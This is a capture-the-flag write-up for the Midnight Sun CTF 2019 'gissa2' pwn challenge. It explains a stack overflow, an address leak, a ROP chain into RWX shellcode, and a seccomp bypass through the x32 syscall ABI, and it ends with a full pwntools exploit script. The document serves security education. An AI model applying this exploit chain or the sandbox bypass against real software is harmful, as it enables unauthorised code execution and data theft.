 # Writeup for gissa2 (pwn, 631 pts, 15 solves), Midnight Sun CTF 2019 Quals

> Last year some dirty hackers found a way around my guessing challenge, well I patched the issue. Can you guess again?
>
> Service: nc gissa-igen-01.play.midnightsunctf.se 4096
>
> Download: [gissa_igen.tar.gz](https://s3.eu-north-1.amazonaws.com/dl.2019.midnightsunctf.se/529C928A6B855DC07AEEE66037E5452E255684E06230BB7C06690DA3D6279E4C/gissa_igen.tar.gz)

## Analysis

The provided binary first `mmap`s the flag and then lets us try to guess it.
After mapping the flag, the binary also installs a seccomp filter which forbids the system calls `open`, `clone`, `fork`, `vfork`, `execve`, `creat`, `openat` and `execveat`.

The length of the buffer our input is read to is stored in the `main()` function as a `uint16_t`, but a pointer to this length is passed to the `guess_flag()` function as a `uint32_t *`.
Right after the buffer length the current number of tries is stored, so when `guess_flag()` accesses the buffer length, it actually uses both of these values.
This has the effect that on our first guess, the buffer length has the correct value of 0x8b, but on the second guess, the buffer length has increased to 0x1008b, which leads to a stack buffer overflow.

## Exploit: ROP

No canary is used, so we can easily overwrite the return address. The only problem left before we can execute a ROP chain is that we don't know the binary's base address (it's a PIE).
But that's easily solved: because the binary doesn't terminate our input string, we can leak the original return address before sending our ROP chain.
However, when we gain control of the execution flow, the flag has already been unmapped and its file descriptor closed.
There's no way for us to divert the execution flow before that point, so we have to find a way to bypass the seccomp filter.

## ROP to Shellcode

To ease bypassing of the seccomp filter, let's first set up a ROP chain to get shellcode execution.
The ROP chain is pretty straightforward: map some RWX memory at a fixed address, read our next input into it, and jump there.

```python
sc_addr = 0x1337000
rop = rop_call(binary + off_mmap, sc_addr, 0x10000, 7, 0x32, -1, 0)
rop += rop_call(binary + off_read, 0, sc_addr, 0x10000)
rop += p64(sc_addr)
```

## Bypass seccomp Filter

Now that we can execute shellcode, the only thing left is somehow bypassing the seccomp filter in order to read the flag.
Here's the filter used:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

The filter checks the current architecture, so we cannot bypass it by switching to 32-bit mode
However, if we set bit 30 of the syscall number, we can access the 'x32' syscall ABI, which provides basically the same system calls and is not blocked by the seccomp filter.
Thus, using syscall 0x40000002 instead of 2 for open lets us open and print the flag.

```asm
# open(0x1338000, 0, 0) - 0x1338000 contains the path
mov rax, 0x40000002
mov rdi, 0x1338000
mov rsi, 0
mov rdx, 0
syscall

# read(flag, 0x1338000, 0x100)
mov rdi, rax
mov rax, 0
mov rsi, 0x1338000
mov rdx, 0x100
syscall

# write(1, 0x1338000, 0x100)
mov rax, 1
mov rdi, 1
mov rsi, 0x1338000
mov rdx, 0x100
syscall
```

Flag: `midnight{I_kN3w_1_5H0ulD_h4v3_jUst_uS3d_l1B5eCC0mP}`

## Exploit Code

```python
from pwn import *

context.binary = 'gissa_igen'

shellcode = asm('''
    mov rax, 0x40000002
    mov rdi, 0x1338000
    mov rsi, 0
    mov rdx, 0
    syscall

    mov rdi, rax
    mov rax, 0
    mov rsi, 0x1338000
    mov rdx, 0x100
    syscall

    mov rax, 1
    mov rdi, 1
    mov rsi, 0x1338000
    mov rdx, 0x100
    syscall
''')

g = remote('gissa-igen-01.play.midnightsunctf.se', 4096)

# increase buf_len
g.sendlineafter('flag (', '')
g.recvuntil('try again')

# overwrite buf_len with 168
g.sendlineafter('flag (', 'A' * 140 + p32(168) + p64(0) * 2)

# leak binary addr
g.sendafter('flag (', 'A' * 140 + '\xff\xff' + '\x01\x01' + 'B' * 8 + '\xff' * 8 + 'C' * 8)
g.recvuntil('C' * 8)
binary = u64(g.recvuntil(' is not right', drop=True).ljust(8, '\0')) - 0xbc5
info("binary @ 0x%x", binary)

# ROP to shellcode

def rop_call(func, rdi=0, rsi=0, rdx=0, rcx=0, r8=0, r9=0):
    return flat(binary + 0xc1f, rcx, 0, 0, 0, binary + 0xc1d, rdx, r9, r8, rdi, rsi, func)

sc_addr = 0x1337000
# mmap
rop = rop_call(binary + 0xc0c, sc_addr, 0x10000, 7, 0x32, -1, 0)
# read
rop += rop_call(binary + 0xbd4, 0, sc_addr, 0x10000)
rop += p64(sc_addr)
g.sendlineafter('flag (', 'A' * 168 + rop)

g.sendafter('not right.\n', shellcode.ljust(0x1000, '\0') + '/home/ctf/flag\0')

g.interactive()
```
